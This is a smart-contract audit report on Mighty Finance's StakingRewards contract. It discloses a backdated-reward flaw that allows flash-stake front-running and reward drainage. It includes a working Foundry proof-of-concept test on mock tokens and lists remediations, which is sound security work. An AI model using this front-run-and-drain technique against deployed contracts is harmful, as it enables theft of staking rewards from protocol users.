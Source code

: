 # Mighty Finance - Findings Report

Prepared by: Nwebor Stephen

Auditors:

- [Stephen](https://github.com/Derastephh)
- [Greg](https://x.com/0xitsgreg)

# Table of contents
<details>

<summary>See table</summary>

- ## [Contest Summary](#contest-summary)
- ## [Results Summary](#results-summary)
- ## High Risk Findings
    - ### [H-01. Backdated Rewards Allow Flash-Stake Drainage](#H-01)

</details>
</br>

# <a id='contest-summary'></a>Contest Summary

### Sponsor: Mighty Finance

### Dates: April 15th, 2025 - May 6th, 2025

[See more contest details here](https://cantina.xyz/competitions/616d8bb4-16ce-4ca9-9ce9-5b99d6e146ef)

# <a id='results-summary'></a>Results Summary

### Number of findings:
- High: 6
- Medium: 0
- Low: 2
- Info: 1

</br>


# High Risk Findings

## <a id='H-01'></a>H-01. Backdated Rewards Allow Flash-Stake Drainage

### Summary

The `StakingRewards.sol` logic allows users stake right before a reward period is set and still collect the full rewards for the past time. This makes it possible to flash-stake and drain emissions without actually participating during the intended reward period.

### Finding Description

The owner can set a reward period in the past using `StakingRewards::setReward`:
```solidity
function setReward(address token, uint256 startTime, uint256 endTime, uint256 total)
    external onlyOwner updateReward(address(0))
{
    ...
    if (block.timestamp > startTime && totalStaked > 0) {  // ← back-date branch
        uint256 dt = block.timestamp - startTime;
        rewardData[token].rewardPerTokenStored +=
            (rewardRate * dt * 1e18) / totalStaked; // ← instant reward injection
    }
    ...
}
```
If a user stakes a large amount right before this function runs, they benefit from all the backdated rewards, even though they were not staked during that past time.

Since there’s no lock-up or cooldown, they can stake, claim, and withdraw in quick succession:
```solidity
// StakingRewards::withdrawByLendingPool which is called from LendingPool::unStakeAndWithdraw
balanceOf[user] -= amount;
totalStaked     -= amount;
stakedToken.transfer(to, amount);               // immediate exit, no lock-up

// claim()
updateReward(msg.sender);                       // rewards finalised
transfer(msg.sender, claimable);                // full payout at once
```
This allows a flash loan attack to drain nearly all rewards of a backdated period with just one or two transactions.

### Impact Explanation

An attacker can:

- Watch for `StakingRewards::setReward` transactions in the mempool.
- Stake a large amount right before the transaction confirms.
- Immediately get all the rewards for a past period.
- Withdraw in the next block, keeping most of the rewards.

### Likelihood Explanation

This is very likely to happen when `startTime` is backdated because:

- No special permissions or time limits exist.
- Flash loans make it almost capital free.
- No cooldown prevents it.

### Proof of Code (PoC)

<details>
<summary>Code</summary>

Create a test folder under contracts, then create a `drain.t.sol` file under the test folder and finally paste the below code in the file. Run PoC with the cmd `forge test --mt test_BackdateDrain -vv`

```solidity
pragma solidity ^0.8.0;

import {Test} from "forge-std/Test.sol";
import "forge-std/console2.sol";

import "contracts/AddressRegistry.sol";
import "contracts/lendingpool/LendingPool.sol";
import {ExtraInterestBearingToken} from "contracts/lendingpool/ExtraInterestBearingToken.sol";
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import "../interfaces/IWETH9.sol";
import "../VaultRegistry.sol";
import "../shadow/ShadowRangePositionImpl.sol";
import "../interfaces/IShadowRangePositionImpl.sol";
import "../shadow/ShadowRangePositionImpl.sol";
import "../lendingpool/StakingRewards.sol";

contract MockTokens is ERC20 {
    constructor(string memory _name, string memory symbol_) ERC20(_name, symbol_) {}

    function mint(address mintTO, uint256 amount) external {
        _mint(mintTO, amount);
    }
}

contract MockWETH is ERC20("Mock Wrapped Ether", "mWETH"), IWETH9 {
    constructor() {
        _mint(msg.sender, 1_000_000 ether);
    }

    function deposit() external payable override {
        _mint(msg.sender, msg.value);
    }

    function withdraw(uint256 amount) external override {
        require(balanceOf(msg.sender) >= amount, "Insufficient balance");
        _burn(msg.sender, amount);
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "ETH transfer failed");
    }

    receive() external payable {}
}

contract LendingPoolTest is Test {
    LendingPool lendingPool;
    AddressRegistry addressRegistry;
    MockTokens underlyingToken;
    MockTokens rewardToken;
    MockTokens stakingToken;
    address treasury;
    address factory;
    address owner;
    address attack;
    address user;
    uint256 reserveId;
    address eTokenAddress;
    VaultRegistry vaultRegistry;
    StakingRewards stakingRewards;

    // address constant WSonic = 0x039e2fB66102314Ce7b64Ce5Ce3E5183bc94aD38;

    MockWETH mockWETH = new MockWETH();
    address WSonic = address(mockWETH);

    function setUp() public {
        owner = makeAddr("owner");
        attack = makeAddr("attack");
        user = makeAddr("user");
        treasury = makeAddr("Treasury");
        factory = makeAddr("Factory");
        vm.startPrank(owner);
        addressRegistry = new AddressRegistry(WSonic);
        addressRegistry.setAddress(AddressId.ADDRESS_ID_TREASURY, treasury);
        vaultRegistry = new VaultRegistry(address(addressRegistry));
        addressRegistry.setAddress(AddressId.ADDRESS_ID_VAULT_FACTORY, address(vaultRegistry));

        lendingPool = new LendingPool();
        lendingPool.initialize(address(addressRegistry), WSonic);
        reserveId = lendingPool.nextReserveId();
        underlyingToken = new MockTokens("UnderlyingToken", "UT");
        rewardToken = new MockTokens("RewardToken", "RT");
        stakingToken = new MockTokens("StakingToken", "ST");
        stakingRewards = new StakingRewards(address(stakingToken));
        lendingPool.initReserve(address(underlyingToken));
        eTokenAddress = lendingPool.getETokenAddress(reserveId);
        vm.stopPrank();
        underlyingToken.mint(eTokenAddress, 100_000 * (10 ** 18));
        underlyingToken.approve(address(lendingPool), 100_000 * (10 ** 18));

        address[2] memory users = [attack, user];
        for (uint256 i = 0; i < users.length; i++) {
            underlyingToken.mint(users[i], 100_000 * (10 ** 18));
            vm.prank(users[i]);
            underlyingToken.approve(address(lendingPool), 100_000 * (10 ** 18));
        }
    }

    function test_BackdateDrain() public {
    uint256 attackerStake = 1000 ether;
    uint256 rewardAmount = 1_000_000 ether;

    vm.warp(10 days);
    uint256 rewardStart = block.timestamp - 7 days; // Backdate reward start
    uint256 rewardEnd = block.timestamp + 7 days;

    // Owner funds reward token
    rewardToken.mint(owner, rewardAmount);
    vm.startPrank(owner);
    rewardToken.approve(address(stakingRewards), rewardAmount);
    vm.stopPrank();

    // Attacker receives enough tokens to flash stake
    stakingToken.mint(user, attackerStake);
    vm.startPrank(user);

    // Simulate attacker monitoring the mempool

    // Attacker stakes right before reward schedule is set (front-run)
    stakingToken.approve(address(stakingRewards), type(uint256).max);
    stakingRewards.stake(attackerStake, user);

    // Owner sets backdated reward startTime
    vm.stopPrank();
    vm.prank(owner);
    stakingRewards.setReward(address(rewardToken), rewardStart, rewardEnd, rewardAmount);

    // Attacker claims rewards asap
    vm.startPrank(user);
    uint256 beforeClaim = rewardToken.balanceOf(user);
    stakingRewards.claim();
    uint256 afterClaim = rewardToken.balanceOf(user);
    uint256 drained = afterClaim - beforeClaim;

    console2.log("Attacker drained: ", drained); // 499,999.999999999999000000

    // Attacker whithdraws full capital
    stakingRewards.withdraw(attackerStake, user);

    vm.stopPrank();
}
}
```
</details>

### Recommendation
- Take a snapshot of totalStaked at the actual `startTime` for fair backdated distribution or prevent `StakingRewards::setReward` from using a `startTime` in the past.
- Add cooldowns or minimum stake duration before claiming.